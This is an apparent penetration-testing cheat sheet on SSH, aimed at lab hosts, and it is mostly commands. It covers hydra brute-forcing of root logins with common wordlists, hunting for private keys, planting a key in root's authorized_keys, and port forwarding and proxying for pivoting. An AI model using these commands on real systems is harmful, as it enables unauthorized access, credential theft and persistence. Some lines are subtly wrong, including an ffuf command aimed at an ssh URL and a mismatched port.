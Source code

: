 ## General Notes
- searchsploit for version
- default credentials
- brute or bust, typically will be using an exploit in something else to log into this and get lower level shell
  - `ssh 10.0.0.12` try without password
  - `hydra -l root -P /usr/share/wordlist/metasploit/unix_passwords.txt ssh://10.0.0.12:22 -t 4 -V`
  - `hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://{ip} -t 4 -V`
  - `ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u [ssh://10.10.10.10/FUZZ](ssh://10.10.10.10/FUZZ)`
- SSH keys
  - `ssh -i id_rsa username@10.10.10.10`
  - `find / -name authorized_keys 2>/dev/null`
  - `find / -name id_rsa 2>/dev/null`
  - `ssh-keygen -f key`
  - `echo "ssh-rsa sshkeytext user@domain" >> /root/.ssh/authorized_keys`
    - `ssh root@10.10.10.10 -i key`
- when connecting to ssh do ss -tulpn to see what socket connections are running
- SSH is great for pivoting
  - Port Forwarding
    - If want to connect to a webpage that dont have access to but have access to another comp on its network
      - `ssh -L 800:10.10.10.10:80 user@10.10.10.5 -fN`
    - navigate to `localhost:8000`
      - Example assumes SSH access to 10.10.10.5 and webserver on 10.10.10.10
    - `ssh -L 8000:10.10.10.10 user@10.0.0.12 -fN`
      - above example assumes we have access 10.0.0.12 and there is a webserver running on 10.10.10.10
      - fN backgrounds the shell and indicates just set up connection and not exectute a command
  - Proxy
    - `ssh -D 8000 user@target.thm -fN`
    - Can also use 1337 as a port. It will open up a port 1337 on localhost to act as a proxy and send data through into the protected network. This is used with proxychains.
      - Make sure proxychains config file set up correctly


*NOTE: See Pivoting page for more information*
